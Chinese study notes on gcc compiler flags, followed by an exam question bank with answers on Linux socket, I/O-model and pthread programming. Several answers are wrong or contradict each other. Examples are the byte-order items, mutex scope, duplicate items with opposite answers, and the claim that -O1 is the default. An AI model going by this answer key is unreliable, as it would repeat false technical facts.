　　允许条件表达式的第二和第三参数类型不匹配,表达式的值将为void类型
　　
-funsigned-char
-fno-signed-char
-fsigned-char
-fno-unsigned-char
　　这四个参数是对char类型进行设置,决定将char类型设置成unsigned char(前两个参
数)或者 signed char(后两个参数)
　　
-include file
　　包含某个代码,简单来说,就是便以某个文件,需要另一个文件的时候,就可以用它设
定,功能就相当于在代码中使用#include<filename>
　　例子用法:
　　gcc hello.c -include /root/pianopan.h
　　
-imacros file
　　将file文件的宏,扩展到gcc/g++的输入文件,宏定义本身并不出现在输入文件中
　　
-Dmacro
　　相当于C语言中的#define macro
　　
-Dmacro=defn
　　相当于C语言中的#define macro=defn
　　
-Umacro
　　相当于C语言中的#undef macro
-undef
　　取消对任何非标准宏的定义
　　
-Idir
　　在你是用#include"file"的时候,gcc/g++会先在当前目录查找你所制定的头文件,如
果没有找到,他回到缺省的头文件目录找,如果使用-I制定了目录,他
　　回先在你所制定的目录查找,然后再按常规的顺序去找.
　　对于#include<file>,gcc/g++会到-I制定的目录查找,查找不到,然后将到系统的缺
省的头文件目录查找
　　
-I-
　　就是取消前一个参数的功能,所以一般在-Idir之后使用
　　
-idirafter dir
　　在-I的目录里面查找失败,讲到这个目录里面查找.
　　
-iprefix prefix
-iwithprefix dir
　　一般一起使用,当-I的目录查找失败,会到prefix+dir下查找
　　
-nostdinc
　　使编译器不再系统缺省的头文件目录里面找头文件,一般和-I联合使用,明确限定头
文件的位置
　　
-nostdin C++
　　规定不在g++指定的标准路经中搜索,但仍在其他路径中搜索,.此选项在创libg++库
使用
　　
-C
　　在预处理的时候,不删除注释信息,一般和-E使用,有时候分析程序，用这个很方便的

　　
-M
　　生成文件关联的信息。包含目标文件所依赖的所有源代码你可以用gcc -M hello.c
来测试一下，很简单。
　　
-MM
　　和上面的那个一样，但是它将忽略由#include<file>造成的依赖关系。
　　
-MD
　　和-M相同，但是输出将导入到.d的文件里面
　　
-MMD
　　和-MM相同，但是输出将导入到.d的文件里面
　　
-Wa,option
　　此选项传递option给汇编程序;如果option中间有逗号,就将option分成多个选项,然
后传递给会汇编程序
　　
-Wl.option
　　此选项传递option给连接程序;如果option中间有逗号,就将option分成多个选项,然
后传递给会连接程序.
　　
-llibrary
　　制定编译的时候使用的库
　　例子用法
　　gcc -lcurses hello.c
　　使用ncurses库编译程序
　　
-Ldir
　　制定编译的时候，搜索库的路径。比如你自己的库，可以用它制定目录，不然
　　编译器将只在标准库的目录找。这个dir就是目录的名称。
　　
-O0
-O1
-O2
-O3
　　编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高　
　 　　
-g
　　只是编译器，在编译的时候，产生调试信息。
　　
-gstabs
　　此选项以stabs格式声称调试信息,但是不包括gdb调试信息.
　　
-gstabs+
　　此选项以stabs格式声称调试信息,并且包含仅供gdb使用的额外调试信息.
　　
-ggdb
　　此选项将尽可能的生成gdb的可以使用的调试信息.
-static
　　此选项将禁止使用动态库，所以，编译出来的东西，一般都很大，也不需要什么
动态连接库，就可以运行.
-share
　　此选项将尽量使用动态库，所以生成文件比较小，但是需要系统由动态库.
-traditional
　　试图让编译器支持传统的C语言特性


* 试题集锦

** 填空题
1.基于TCP通信中,主动关闭连接的一方会在TIME_WAIT状态下等待 #2MSL# 长度的时间.因此主动关闭的一方程序无法马上重新启动并再次绑定相同的IP地址与端口.这时使用函数 #setsockopt# 并在参数中指定套接字选项 #SO_REUSEADDR#

2.名字到IP地址的解析使用的函数是 #gethostbyname# ,IP地址到域名的解析函数是 #gethostbyaddr#

3.为保证"大端"和"小端"字节序的机器之间能相互通信,需在发生多字节整数时,将主机字节序转换成 #网络字节序#

4.socket()函数可以创建三类套接字,分别是 #TCP套接字,UDP套接字,原始套接字#

5.bind(),connect()等函数在出错时均会返回-1,具体出错的原因的错误代码可以在全局变量 #errno# 中找到,调用 #perror# 可以将错误代码转换成为它对应的字符串信息.

6.在TCP连接中,若需要关闭某个方向的连接,可以使用函数 #shutdown#

7.gethostname(char *name, size_t namelen)函数的功能是 #返回当前主机的名字,name是指向主机名存储位置的指针,namelen是此数组的大小#

8.pselect(int maxfd, fd_set *readset, fd_set *writeset, fd_set *exceptset, const struct timeval *timeout, const sigset_t *sigmask)函数的maxfd参数的值是 #被测试描述字个数# , timeout参数定义的超时时间精确到 #微秒#, sigmask参数的作用是 #阻塞信号# ,
pselect函数的返回值有三种情况,返回值为0表示 #超时# ,返回值大于0表示 #已经准备好的描述符数# ,而返回值为-1时表示出错.

9.设置SO_KEEPALIVE选项的作用是 #保持连接检测对方主机是否崩溃,避免服务器永远陷入TCP连接的输入#

10.pthread_key_create(pthread_key_t *key, void (* destructor)(void *value))函数的作用是 #在函数内部分配一个TSD的关键字# , 其中destructor是 #可选的析构函数,可以和每个关键字联系# , value是 #与本线程相关的值# , value 的默认值是 #指向动态分配的内存区域#.

11.基于TCP协议的服务器端程序中,需要两个描述符,它们分别是由 #socket()# 函数创建的负责 #监听描述符用来监听一个端口,当有一个客户与服务器连接的时候,它使用这个端口号,而此时这个端口号正与这个套接字关联# 的描述符, 和由 #accept()# 函数创建的负责 #已连接描述符会默认阻塞进程,直到有一个客户连接建立后立即返回,它返回的是一个新可用的套接字,这个套接字是连接套接字# 的描述符.

13.函数bind返回的是一个常见错误:所绑定的地址被其他进程所使用,为解决这个问题,我们可以通过调用 #setsockopt# 函数, 并为该函数的Optname设置形参传递 #SO_REUSEADDR# 参数,避免这个错误

14.基于TCP套接字程序中,服务器可以通过 #accept# 函数返回与之通信的当前客户端的套接字地址结构

15.pthread_detach(pthread_t tid)的作用是将一个 #联合的# 线程变成 #可分离的# 线程.

17.linux操作系统中支持五种I/O模型,分别是 #I/O复用,异步I/O,驱动I/O,阻塞I/O模型和非阻塞I/O模型#

18.#pthread_key_create#函数在进程内部分配一个标志TSD的关键字,并且该函数其中一个形参是可选的析构函数,当系统调用该析构函数时,传递的形参是 #value#

19.INADDR_ANY调用bind的服务器,在接受连接后,调用 #getsockname# 函数获取系统选择的IP地址.

20.如果用户程序为发送网络数据报结构自己的IPv4头部,需创建 #原始# 套接字, 并且前提是: 调用 #socket# 函数,给套接字设置 #SOCK_RAW# 选项


** 判断题


1. [F] 在用pthread库编写的多线程程序中,若主线程退出,则主线程创建的新线程将继续运行

2. [F] 在TCP网络程序中,connect()函数用于客户端向服务器发起链接而在UDP网络程序中,由于UDP是面向无连接的,所以connect()函数不能用于UDP连接

3. [T] inet_ntoa()函数可以将32位的网络字节序二进制IPv4地址转换程相应的字符串形式的IP地址,但不能将二进制IPv6地址转换成相应的字符串形式的IP地址

4. [T] 服务器程序通常都会调用bind()函数以绑定监听地址,而客户端则很少调用它

5. [T] 当一个客户SYN到达时,若未完成连接队列和已完成连接队列都是满的,TCP就忽略此分节,且不发送RST

6. [F] 调用close()函数将立即关闭发送与接收这两个方向的TCP连接而不管将关闭的套接字的引用情况
# 只是将计数减一不会引发TCP终止操作

7. [F] 在TCP客户服务器通信中,若服务器端崩溃,则可以通过重启服务器让正在进行通信继续

8. [T] TCP迭代服务器在某一时刻最多只能存在一个客户端与之简历的通信连接,而并发服务器在某一时刻可以存在多个客户端与之的通信连接

9. [T] 互斥锁是一种专用于进程间数据同步的计数

10. [T] 当子进程正常或异常终止时,系统内核会向其父进程发送SIGCHLD信号
# 正常,结束,中断,或恢复执行内核都会发送 SIGCHLD

11. [T] 可以使用原始套接口编程伪造IP数据包实现DoS攻击

12. [T] 在多进程编程中,父进程用于监听,子进程用于为已经连接客户端提供服务,则父进程必须关闭已连接套接字,子进程必须关闭监听套接字

13. [F] 调用bind()函数时,必须指明IP地址与端口号,而不能让内核来选择IP地址与端口号

14. [T] 调用select函数可以实现与sleep函数一样的延时功能

15. [T] connect()函数的作用是发起建立连接的请求

16. [T] 基于TCP协议的服务器端程序,可以通过accept()函数获得与之通信的客户端的IP地址和端口号

17. [F] 基于UDP协议的服务端和客户端程序,在接收和发送数据时,必须使用sendto()和recvform()函数
# read write

18. [T] fork()函数和vfork()函数都可以创建子进程,所以基于这两个函数都可以实现多进程并发服务器

19. [F] 线程可以调用exit()函数退出,而且对统一进程的其它线程不会造成影响
# exit结束整个程序

20. [F] pthread_join()可以等待任意线程的退出
# 不能等待任一线程结束

21. [T] 标识线程专用数据的关键字key是进程唯一的.

22. [T] 使用I/O复用技术可以实现并发服务器

23. [F] 对SO_KEEPALIVE选项中时间参数的修改,会影响到主机中打开该选项的所有套接字
# 只针对相应的

24. [F] gethostbyname(const char *hostname)函数不允许将IP地址作为函数的参数

25. [T] SO_LINGER选项可以改变TCP套接字关闭连接时的缺省行为

26. [T] 只要创建了原始套接字就可以自行构造IPv4的首部

27. [F] 可以对未加互斥锁的数据进行解锁

28. [T] 使用互斥锁可以保证,在同一时间内,只允许一个线程访问共享数据

29. [T] select()函数可以实现计时器功能

30. [F] 由确定通信的五元组(本地协议,本地IP,本地端口,远程协议,远程IP,远程端口)可知,该(本地TCP,本地IP,本地端口,远程UDP,远程IP,远程端口)六元组所标识网络中一个连接可以进行正常的网络通信

31. [F] 套接口是计算机操作系统为TCP/UDP协议与IP协议之间进行数据交互提供的接口,又称套接字
# 套接口与套接字是两个东西

32. [T] 在IPv4套接字地址结构中,成员sin_port是用来存储主机字节顺序端口号

33. [T] 默认情况下,close函数将套接字的访问次数减1,并丢弃发送缓冲区和接受缓冲区的数据,仅在本次计数为0时才关闭套接字

34. [T] UDP套接字编程,调用recvfrom函数可以获得通信的对方的套接字地址结构

35. [F] wait()函数可以处理同时退出的多个线程在进行

36. [F] 一个线程的崩溃不会影响同一进程中的其他线程
# 线程没有自己的地址空间,非法地址读写崩溃,整个进程也是错误的

37. [T] 在多线程并发服务器中,主线程生成子线程后,在主线程中要关闭已连接描述符,在子线程中要关闭监听描述字

38. [T] 标识线程专用数据的关键字key是进程唯一的

39. [T] stdin设为非阻塞后,不能使用标准输入输出函数操作该句柄,而要通过read来操作

40. [T] 非阻塞I/O的实现可以通过fcntl()来改变描述符的标志来实现

41. [T] I/O复用模型调用select或poll,进程阻塞于这两个系统调用上,而不是阻塞在真正的I/O系统调用上

42. [T] 在TCP服务器,为了接受更多的数据,可以在接收数据调用打开read函数时,临时更改套接字接受缓冲区的大小

43. [F] 改变某个描述符的SO_KEEPALIVE选项值,不会影响到主机上打开的其他描述符

44. [T] 只要创建了原始套接字就可以自行构造IP报文的首部

45. [F] 由确定通信的五元组(本地协议,本地IP,本地端口,远程协议,远程IP,远程端口)可知,该(本地TCP,本地IP,本地端口,远程UDP,远程IP,远程端口)六元组所标识网络中一个连接可以进行正常的网络通信

46. [F] 套接口是计算机操作系统为TCP/UDP协议与IP协议之间进行数据交互提供的接口,又称套接字

47. [F] 在TCP的客户端程序中,如果connect()函数调用失败,则还可以继续使用该套接字
# 套接字不能再使用必须关闭

48. [T] 在IPv4套接字地址结构中,in_addr结构体中的s_addr成员,存储的便是我们主机字节序的32位IPv4地址

49. [F] vfork()函数创建子进程后,父进程和子进程谁先执行,这取决于内核所使用的调度算法,有可能父进程先于子进程执行,也有可能子进程先于父进程执行

50. [F] 在UDP套接字程序中,客户端与服务端通信时,必须使用sendto()和recvfrom()函数
write read

51. [T] waitpid()函数可以处理同时退出的多个线程在进行

52. [F] 对于非阻塞I/O模型,进程从调用recvfrom函数,将数据从内核拷贝到用户空间整个过程都不会阻塞进程的执行
# 在数据拷贝的时候阻塞

53. [T] 在多线程并发服务器中,为防止父子线程对描述符的操作造成混乱,在主线程创建子线程后,应在父线程中关闭已连接描述符

54. [T] 创建的子线程默认情况可联合的

55. [T] 在TCP的客户端程序中,为了接受更多的数据,可以在接收数据调用打开read函数时,临时更改套接字接受缓冲区的大小

56. [F] SO_SNDLOWAT用来设置套接字发送缓冲区的发送低潮,当发送缓冲区的现有数据量大于发送低潮时,便可以发送数据,select返回可写
小于时触发I/O

